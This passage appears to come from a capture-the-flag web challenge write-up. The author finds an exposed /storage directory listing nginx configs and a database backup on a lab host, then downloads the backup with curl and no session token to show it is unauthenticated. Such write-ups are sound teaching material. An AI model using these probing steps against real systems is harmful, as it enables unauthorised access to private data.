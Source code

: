 Nothing new, this is the "index" of all accessible configs I already confirmed with the Python script.

To `/api`? Nope.

Check for URLs and endpoints using `Burp > Target > Site Map` and noticed `/storage`. Try:

```bash
juancho💀hackbox:Web$ curl --cookie "laravel_session=eyJpdiI6InFWdTdWbS9OV1A0b0tDeVhaVUgxaVE9PSIsInZhbHVlIjoiNFdvT05WazlI
QytwZkRlUHZYOXQ5a2d1eXRkNUpOOHgrN1NGN1ljdTV2S1ZqWmkyem9mb2NTeVpwdTZIMzBGUDd2RGtqK1h2OU1lWEdvNVcxWFhOMmJmS1hCbXVLRklET3pYT
09neDdKLzJYK3crYnpPYXp4TFNGWHlHYVhmQ1kiLCJtYWMiOiI5MTc1ZDQ5M2M5MzgyOThkZTNjNzdkMjJlNzJkZjZmZTUyOGIzM2Y5YzZmNTk3YTZhYzE1Zj
Q3YTY4ZWZmNjNiIn0%3D" http://157.245.35.161:32681/storage/
<html>
<head><title>Index of /storage/</title></head>
<body>
<h1>Index of /storage/</h1><hr><pre><a href="../">../</a>
<a href="nginx_61cb4aaaf03ba.conf">nginx_61cb4aaaf03ba.conf</a>                           28-Dec-2021 17:34              
  1101
<a href="nginx_61cb4aaaf1a75.conf">nginx_61cb4aaaf1a75.conf</a>                           28-Dec-2021 17:34              
  1101
<a href="nginx_61cb4aab0cc4e.conf">nginx_61cb4aab0cc4e.conf</a>                           28-Dec-2021 17:34              
  1101
<a href="nginx_61cb4aab0d82a.conf">nginx_61cb4aab0d82a.conf</a>                           28-Dec-2021 17:34              
  1101
...
<a href="nginx_61cb4aab24fce.conf">nginx_61cb4aab24fce.conf</a>                           28-Dec-2021 17:34                1101
<a href="nginx_61cb5e763f9ec.conf">nginx_61cb5e763f9ec.conf</a>                           28-Dec-2021 18:59                 983
<a href="nginx_61cb5f3fbe916.conf">nginx_61cb5f3fbe916.conf</a>                           28-Dec-2021 19:02                 983
<a href="v1_db_backup_1604123342.tar.gz">v1_db_backup_1604123342.tar.gz</a>                     28-Dec-2021 17:34               42496
</pre><hr></body>
</html>
```

It's the list of all the Nginx configs, with an interesting archive file at the bottom. Is this directory even authenticated?

```bash
# test without the session token:
juancho💀hackbox:Web$ curl http://157.245.35.161:32681/storage/v1_db_backup_1604123342.tar.gz -o v1_db_backup_1604123342.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 42496  100 42496    0     0  90116      0 --:--:-- --:--:-- --:--:-- 90033
juancho💀hackbox:Web$
```
